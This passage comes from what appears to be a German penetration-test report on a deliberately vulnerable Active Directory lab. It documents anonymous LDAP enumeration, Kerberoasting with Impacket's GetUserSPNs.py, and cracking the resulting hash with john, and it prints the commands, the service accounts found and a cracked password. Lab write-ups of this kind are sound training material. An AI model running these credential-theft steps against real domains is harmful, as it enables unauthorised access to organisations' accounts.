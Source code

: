 ```
http-methods: Potentially risky methods: TRACE
```

**Risiko:** Cross-Site Tracing (XST) Angriffe möglich

### Anonyme LDAP-Binds

**Alle Domain Controller** erlauben anonyme Basis-Abfragen:

```bash
$ ldapsearch -x -H ldap://192.168.20.10 -s base
# Erfolgreich - Naming Contexts sichtbar
```

### 3.2 Sicherheitszertifikate

**Selbst-signierte Zertifikate gefunden:**
- **SQL Server:** `SSL_Self_Signed_Fallback` (gültig bis 2055)
- **WinRM:** Standard `VAGRANT-2019` Zertifikate
- **RDP:** Host-spezifische selbst-signierte Zertifikate

**Risiko:** Man-in-the-Middle-Angriffe möglich

---

## 4. Exploitation Phase

### 4.1 Kerberos-Angriffe

### Kerberoasting

**Tool:** `GetUserSPNs.py` (Impacket)

**Gefundene Service Principal Names:**

```bash
$ GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt
ServicePrincipalName                                 Name
---------------------------------------------------  -----------
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark
CIFS/thewall.north.sevenkingdoms.local               jon.snow
HTTP/thewall.north.sevenkingdoms.local               jon.snow
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc
```

**Erfolgreicher Crack:**

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
# Ergebnis: jon.snow:iknownothing
```

### AS-REP Roasting
